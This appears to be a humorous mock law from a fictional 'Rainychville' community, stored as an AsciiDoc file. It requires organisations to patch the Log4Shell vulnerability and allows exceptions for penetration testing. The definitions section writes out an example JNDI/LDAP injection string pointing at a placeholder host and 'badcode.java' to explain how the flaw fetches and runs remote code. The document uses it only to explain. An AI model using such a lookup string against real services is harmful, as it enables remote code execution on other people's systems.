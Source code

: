 = Log4Shell Prevention Act
:toc:



== Full text

[.text-center]
[discrete]
==== Rainychville Government

[.text-center]
[discrete]
=== Log4Shell Prevention Act

[.text-center]
*AN ACT* to prevent the exploitation of the "Log4Shell" vulnerability in the Java library known as Log4J.

[.text-center]
*Law code*: _ECIR 12.1.355.8_




=== SEC 1. SHORT TITLE.
This act may be cited as the ``Log4Shell Prevention Act``.

=== SEC 2. DEFINITIONS.
[horizontal]
. *Java* as a programming language, wherein a program to print out
"Hello World" may be defined as:
+
[source,java]
--
public class Main {
    public static void main (String[] args) {
        System.out.println("Hello World");
    }
}
--

+
where such program is placed in a file named Main.java;

. *Log4J* as a logging library for the Java programming
 language, allowing for debugging messages and information about
 the operations of a program or it's error handling to be logged
 and therefore interpreted by programmers for the purposes of
 rectifying errors or debugging;

. *Log4Shell* as a severe vulnerability in Log4J, allowing for the
 execution of remote code by sending specially formatted strings,
 some of which could load code and execute it, regardless of trust
 or permission level wherein such specially formatted string may
 be something such as ``{$jndi:ldap://example.com:389/badcode.java}``
 where ``{$jndi:ldap`` instructs Log4J to load remote code from
 ``example.com:389/badcode.java``, where ``389`` is the port number,
 and ``badcode.java`` is the location of the attacker's code, and
 that the code loaded from the ``{$jndi:ldap`` is executed, with
 no permission checks;

. *Unauthenticated remote code execution, or RCE* as the execution of
 arbitrary code on a server, where the code is malicious or violates any
 Rainychville law surrounding computers, or where it's execution is
 undesirable to the owner or maintainer of the computer on which it is
 executed, such as the undesired action by Log4J defined in Section 2.3;

. *Code or program* as any set of instructions understandable by any
  computer, whether machine code, human-readable code interpreted by
  an interpreter (such as Python);

. *Computer or machine* as any contraption capable of automatically
  performing calculations or tasks;

. *Sensitive data* as any data, machine-readable, human-readable, or
  program-readable, that details any sensitive information, where
  such sensitive information may include:
.. personal information, as defined by section 1006, clause 2 of
   the Rainychville TOS;
.. government or state secrets, such as:
... information on the locations of silos or facilities
    that support the use of weapons of mass destruction
    such as nukes, hydrogen bombs, death stars;
... locations of espionage agents, where such agents are
    performing any kind of tasks for the Rainychville
    Government;
... plans detailing military actions, or any information
    which may benefit an enemy or put Rainychville at a
    disadvantage in times of war or conflict;
. Environment as information on the unique set of software installed
 on the computer's operating system, it's configurations;
. Environment variables as a series of key-value pairs on the computer,
 which defines values critical or useful to it's operation, including but
 not limited to:
.. API keys for accessing application programming interfaces,
 services, and other resources on remote servers, where this API
 key may be used for authorization, or authentication; and
.. configuration settings for programs which operate in the shell.

=== SEC 3. FAILURE TO PATCH LOG4J.
. Any organization that fails to protect personal or sensitive data,
by deliberate failure to patch the Log4Shell exploit, or prevent it's
exploitation via other means such as alteration of environment
variables or preventing LDAP lookups, shall be criminally liable
for the breach of said data, and any other Rainychville law broken
by the leakage of said data. Aforementioned organizations covered
include but are not limited to:
.. Private or public companies;
.. The Rainychville Government itself; and
.. Individuals who operate or control services that
   may be affected by the exploit;
   where such organization:
.. operates in the jurisdiction of Rainychville;
.. is in possession, whether such data is encrypted at rest
   and not usable by the organization itself, only by programs
    which the organization controls, of any sensitive data;
. Organizations as defined by Section 3.1, shall be permitted to
deliberately maintain environments where Log4Shell is exploitable,
for the purposes of demonstration, penetration testing, ethical
hacking, or experimentation.
. Whereas it is infeasible to update Log4J to the latest version,
such organization may also alter their environment or it's
variables, or their copy of Log4J itself to prevent the exploitation
of Log4Shell.

=== SEC 4. EXPLOITATION OF LOG4SHELL.
. The exploitation of the Log4Shell exploit shall be considered to be
a method of hacking a computer, or networks of computers, or part of
the act of hacking where the exploitation of such is defined as the
usage of the exploit in non-ethical hacking actions to perform remote
code execution or attain unauthorized access to a server's environment
variables.

. The standard exceptions for demonstration, penetration testing,
ethical hacking shall also apply to the act of exploiting the Log4Shell
exploit.

. If any exploitation of Log4Shell affects Rainych herself negatively,
any hacker responsible for affecting Rainych negatively via the Log4Shell
exploit, where it can be reliably proven in court, shall be permanently
banned from the Rainychville Discord server, without the ability to
appeal such a ban.

=== SEC 5. GOVERNMENT PATCHING OF LOG4SHELL.
. The Rainychville Government itself must make reasonable efforts to
patch the Log4Shell vulnerability in all programs that they operate or
control, where such programs may be wholly written in Java, or at the
very least contain components that use or interact with Java code.

. To allow compliance with Section 5.1, Rainychville government
divisions shall be granted the power to demand copies of the source
code of any Java program that they use, within reason, where the
reason for such demand shall be exclusively the modification of the
software to prevent Log4Shell's exploitation, where such program may
be proprietary or where the developer does not provide users of the
software with access to the source code or any easily modifiable form
of the program.

. If the program's source code is required and the program's source
code is accessible but does not meet the definition of "open source",
the Rainychville Government, within reason, when modifying the source
code even against the wishes of it's author or maintainer, be immune
to any claim of copyright infringement or the violation of any contract,
proven such modification only prevents the exploitation of Log4Shell,
and that there is no other change made to the program's features.

. Any investigation into possible abuse of the rights granted to the
Rainychville government defined in Sections 5.2 and 5.3 shall be
prioritized and anyone caught abusing such power prioritized for removal
from any position of trust or power within the Rainychville Government,
and banned from holding or regaining any such position, whereas such any
person who has recieved such a ban may only appeal it after extensive
probation and background checks.

. New programs in Java being developed by the Rainychville Government
shall be discouraged from utilizing the Log4J logging library to
prevent vulnerabilities or the exploitation of Log4Shell. These
programs shall instead use alternative Java logging libraries.

=== SEC 6. IMPORT OF LOG4SHELL-AFFECTED SOFTWARE.
. The transfer of software affected by Log4Shell via a physical medium
including but not limited to:

.. hard disk drives or solid state drives, wherein programs
which may or may not be affected by Log4Shell are stored, and
mailed or physically transported to another server or a user's
computer;

.. books wherein the source code is physically written on the
pages of the book itself, or where significant snippets are
included in quotes of the book;
shall be logged and recorded, whereas such transfer, to be covered under
this law, must be:

.. from a server or location outside of the jurisdiction of the
Rainychville Government, to any location within jurisdiction,
including any embassies or diplomatic buildings outside of
Rainychville but owned and operated by the Rainychville
Government for diplomatic purposes;

.. software meant for production;

+
whereas exceptions shall be made for:

.. the archival of old/legacy software, or old versions of said
software;

.. demonstrations of the Log4Shell vulnerability where it will
be used for experimentation, penetration testing or ethical
hacking; and

.. software not in production or unlikely to interact with
sensitive data.

. No logging or recording shall be required for the digital transfer
of software.

LEGISLATIVE HISTORY: Please review the commit logs of the Git repository that
this law document is stored in.